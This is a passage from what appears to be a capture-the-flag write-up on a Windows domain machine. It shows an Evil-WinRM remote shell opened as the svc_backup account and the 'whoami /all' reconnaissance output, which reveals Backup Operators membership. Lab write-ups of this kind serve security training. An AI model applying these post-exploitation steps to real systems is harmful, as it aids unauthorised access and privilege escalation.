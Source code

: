 ```text
Evil-WinRM shell v3.4
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
```

Note: The hash from administrator is not working. Explaination later in this writeup

## Post-Exploitation

### Host Reconnaissance

First let's check what privileges have this account :

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /all
```

Result:

```text
USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
```
